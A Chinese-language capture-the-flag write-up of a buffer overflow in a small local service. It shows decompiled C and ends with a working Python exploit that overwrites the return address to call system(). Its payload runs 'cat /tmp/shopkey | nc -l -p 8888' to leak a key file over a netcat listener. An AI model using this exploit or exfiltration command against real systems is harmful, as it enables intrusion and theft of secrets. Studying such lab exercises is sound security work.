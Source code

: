 首先看程序很明显会发现，接收到的串没有做长度校验，所以传递传递超过长度限制的就会直接溢出，覆盖返回值地址不解释，然后程序由于调用过system，所以GOT表中已经有了system，直接调用就好，至于参数，由于程序将我们的输入串strcpy到了一个全局变量中，那么我们直接就可以用这个全局变量当参数了，真是简直不能更水，ROP神马完全都不用了。

但是写了payload发现挂彩，于是乎仔细一看，程序在读入之后，调用这个getnum函数的时候崩掉了：

```c
int __cdecl getnum(char *input_buf){  unsigned int v1; // eax@1  char s[16]; // [sp+10h] [bp-28h]@1  size_t v4; // [sp+20h] [bp-18h]@1  int v5; // [sp+24h] [bp-14h]@1  size_t i; // [sp+28h] [bp-10h]@1  int v7; // [sp+2Ch] [bp-Ch]@1  v7 = 0;  v5 = 0;  v4 = 0;  v1 = time(0);  srand(v1);  memset(s, 0, 0x10u);  v4 = strlen(input_buf);  for ( i = 0; (signed int)i < (signed int)v4; ++i )  {    if ( input_buf[i] != 32 )      s[v5++] = input_buf[i];  }  if ( !strcmp(s, "apple") )  {    v7 = rand() % 1000;  }  else if ( !strcmp(s, "pear") )  {    v7 = rand() % 1000;  }  else if ( !strcmp(s, "orange") )  {    v7 = rand() % 1000;  }  else if ( !strcmp(s, "banana") )  {    v7 = rand() % 1000;  }  else if ( !strcmp(s, "peach") )  {    v7 = rand() % 1000;  }  else  {    v7 = -1;  }  return v7;}
```

我们可以发现，这里将输入字符串的除空格之外的字符存到了局部变量s中，于是乎，按照我们的输入，会导致这里也溢出，然后v4先被覆盖成一个很大的值，循环出不去，然后访问内存的时候就崩了。

那么我们只要想办法让溢出的时候，循环直接break就好，当然我们可以用\x00来截断，但是截断同时也会导致我们执行system的时候，里面的命令被截断，所以鉴于这里v4是signed int，那么我们最好的办法就是把v4覆盖成0xffffffff，即-1。

然后我们本地运行`system("cat /tmp/shopkey")`会发现，获取到的key是输出到了服务器端，而我们连接服务器的脚本是接收不到key的，因为这里和平常nc连接服务器不一样，这里的socket是这个程序自己控制的，除非我们直接调send，直接输出的东西只能在服务器程序那边看到，我们这里是收不到的。

然后为了将flag发回来，我当时的想法是执行命令`cat /tmp/shopkey | nc -l -p 8888`让程序监听端口，然后再开一个终端`nc 0.0.0.0 8888`就可以接收到flag了，然后就这么过了。

后来想了下，我们其实可以直接`cat /tmp/shopkey > /tmp/.test`输出到一个文件，然后这个文件有所有人读的权限，我们就可以用当前ctf帐号读取flag了，或者甚至可以直接`chmod a+r /tmp/shopkey`，不过这样容易让其他人也一个不小心就看到flag的说……

最后程序很简单：

```python
#!/usr/bin/env python
#encoding:utf-8

import socket

def NOPS(n):
    return ' ' * n

def RIGHT_PAD(s, n):
    return s + NOPS(n - len(s))

def l32(x):
    return ''.join([chr((x >> (i << 3)) & 0xff) for i in xrange(4)])

SOCK_PATH = '/home/wangyanfeng/shopinfo/si-socket'
BINSH_ADDR = 0x0804B0A0
SYSTEM_GOT = 0x08048670
LEN_TO_RET = 0x4c + 4

io = socket.socket(socket.AF_UNIX)
io.connect(SOCK_PATH)

payload = RIGHT_PAD('\xff' * 20 + '\ncat /tmp/shopkey | nc -l -p 8888\n', LEN_TO_RET) + l32(SYSTEM_GOT) + NOPS(4) + l32(BINSH_ADDR)
# payload = RIGHT_PAD('\xff' * 20 + '\ncat /tmp/shopkey > /tmp/.test\n', LEN_TO_RET) + l32(SYSTEM_GOT) + NOPS(4) + l32(BINSH_ADDR)
io.sendall(l32(len(payload)))
io.sendall(payload)
```

PS：这题如果要本地跑的话，需要新建目录`/home/wangyanfeng/shopinfo`，同时设置好权限，直接777最简单。
